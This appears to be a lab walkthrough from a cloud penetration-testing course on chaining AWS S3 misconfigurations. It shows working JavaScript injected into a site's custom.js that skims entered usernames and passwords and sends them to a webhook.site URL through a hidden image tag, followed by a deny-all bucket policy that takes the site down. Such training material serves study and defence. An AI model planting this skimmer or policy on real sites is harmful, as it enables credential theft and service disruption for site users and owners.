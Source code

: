 # Chaining Attacks

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/227757045-5fe0977c-58a0-48a8-9d50-a79da3574459.png)

List bucket contents. 

```
aws s3 ls s3://s3-file-load-845168849788 --profile PTAcademyJllerena
aws s3 ls s3://s3-file-load-static-845168849788 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/227757255-998e4eb3-6d8d-4cb8-814f-cb47e9eda231.png)

Check if a static website is available in the browser. Enter the URL in the format `http://s3-file-load-402113608956.s3-website-us-east-1.amazonaws.com/`
![image](https://user-images.githubusercontent.com/46797181/227757843-44100fd9-3cee-4c79-b513-016096a64dcd.png)

Checking the source code, it is possible to see that the application points to the other bucket
![image](https://user-images.githubusercontent.com/46797181/227757961-974638a6-fb24-4383-adf1-7afae792ad0a.png)

Checking the other bucket `aws s3 ls s3://s3-file-load-static-402113608956/static/ --profile PTAcademyJllerena` it can be seen that there are files in there 
![image](https://user-images.githubusercontent.com/46797181/227758067-4e6f663f-ae64-45c8-ae29-ca22b0f3e0e8.png)

Check the bucket policy `aws s3api get-bucket-policy --bucket s3-file-load-static-402113608956 --output text  --profile PTAcademyJllerena | jq `
![image](https://user-images.githubusercontent.com/46797181/227758140-4c74218c-a0c4-42ae-a4fa-8ba11114025b.png)

Copy custom.js script from the bucket to local machine. `aws s3 cp s3://s3-file-load-static-402113608956/static/javascript/custom.js ./ --profile PTAcademyJllerena`
Modify custom.js to steal credentials from the webpage and send them to a custom attacker’s server. The file will look like this

```
function makeRequest() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("output").innerHTML = this.responseText;
}
if (this.readyState == 4 && this.status != 200) {
document.getElementById("output").innerHTML = "Invalid Credentials";
}
};
var url = 'https://ahyk95vfo5.execute-api.us-west-2.amazonaws.com/dev?username=' + $('#pi3').val() + '&password=' + $('#pi4').val()
xhttp.open("GET", url, true);
xhttp.send();
element=document.getElementById('pi3');
element.innerHTML +="<img src='https://webhook.site/51655c62-39b0-41d5-a79f-db620b78a77f/?username="+$('#pi3').val()+"&password="+$('#pi4').val()+"' style = 'display:none'>"
}

```

Then upload the js file back to the bucket. `aws s3 cp custom.js s3://s3-file-load-static-402113608956/static/javascript/custom.js --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/227759373-afd93298-c822-470b-a36c-99f98a34b609.png)

Go to the application and enter any credentials and notice that the webhook receives the request 

![image](https://user-images.githubusercontent.com/46797181/227759582-ab7c93db-3193-4057-956d-fc38a22de97b.png)

Get the bucket policy with `aws s3api get-bucket-policy --bucket s3-file-load-static-402113608956 --output text --profile PTAcademyJllerena | jq ` and edit the file to look like the one below

```
{
  "Statement": [
    {
      "Action": [
        "s3:Get*",
        "s3:Put*"
      ],
      "Effect": "Deny",
      "Principal": "*",
      "Resource": [
        "arn:aws:s3:::s3-file-load-static-927647510672/*",
        "arn:aws:s3:::s3-file-load-static-927647510672"
      ],
      "Sid": "AllObjectActions"
    }
  ],
  "Version": "2012-10-17"
}

```
Modify the policy with ` aws s3api put-bucket-policy --bucket s3-file-load-static-927647510672 --policy file://policy.json --profile PTAcademyJllerena` and if everything goes well no message will be shown and the policy will be applied 

Go to the application URL `http://s3-file-load-927647510672.s3-website-us-east-1.amazonaws.com/` and check the console, notice that there are `HTTP 403 forbidden` message due to the change of policy which denies now
![image](https://user-images.githubusercontent.com/46797181/228724492-82efdc12-595f-4edc-8719-f867eecad10f.png)

!!! EXERCISE COMPLETED 













